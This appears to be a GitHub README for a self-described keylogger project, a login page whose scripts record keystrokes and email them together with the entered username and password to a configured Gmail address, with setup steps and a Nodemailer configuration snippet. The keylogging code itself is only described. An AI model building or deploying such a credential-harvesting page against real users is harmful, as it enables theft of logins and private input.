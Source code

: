 # Keylogger Project

This project is a simple implementation of a keylogger integrated with a login form. It captures the keystrokes made by the user before submitting the login form and sends them along with the login credentials to a specified email address. This README provides an overview of the project structure, files, and how to set it up.

![Login preview](./ss1.png)

## Project Structure

- **index.js**: Node.js backend server code responsible for handling the login endpoint, capturing keystrokes, and sending them via email.
- **script.js**: Frontend JavaScript code responsible for capturing keystrokes and submitting the login form.
- **index.html**: HTML file containing the login form.
- **keycodes.js**: JavaScript file defining keycodes for each key pressed.
- **styles.css**: CSS file containing styles for the login form and page layout.

## Setup Instructions

1. **Clone the repository to your local machine:**

    ```bash
    git clone https://github.com/pranaykumar2/keylogger.git
    ```

2. **Install dependencies:**

    ```bash
    npm install
    ```

3. **Configure Gmail credentials in `index.js`:**

    ```javascript
    const transporter = nodemailer.createTransport({
        service: 'gmail',
        auth: {
            user: process.env.GMAILFROM,
            pass: process.env.PASSWORD
        }
    });
    
    const mailOptions = {
        from: process.env.GMAILFROM,
        to: process.env.GMAILTO,
        subject: 'Keystrokes Log',
        text: `Keystrokes log for user ${username}:\n${keysPressedText}`
    };
    ```

4. **Setup `.env` file:**

    Create a `.env` file in the root directory and add the following:

    ```
    GMAILFROM=your-from-email@gmail.com
    PASSWORD=your-email-password
    GMAILTO=your-to-email@gmail.com
    ```

5. **Start the server:**

    ```bash
    node index.js
    ```

6. **Open `localhost:3000` in a web browser to access the login form.**

7. **Steps to setup `APP PASSWORD`:**

   1. Go to your Google Account App Passwords: [Google App Passwords](https://myaccount.google.com/apppasswords)
   2. Name your app and create the password
   3. Copy the generated password and use it in the `.env` file

## Usage

1. Enter your username and password in the login form.
2. Before submitting the form, type your credentials while the page is active to capture keystrokes.
3. Click the "Login" button to submit the form.
4. The captured keystrokes will be sent along with your login credentials to the configured email address.

## Keycodes Reference

The `keycodes.js` file contains a reference for keycodes corresponding to each key pressed. You can use this reference to interpret the captured keystrokes.

## Technologies Used

- Node.js
- Express.js
- Nodemailer
- HTML/CSS/JavaScript
- Body-parser
- FormData API
- Git
- Gmail

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License

This project is licensed under the [MIT License](LICENSE).
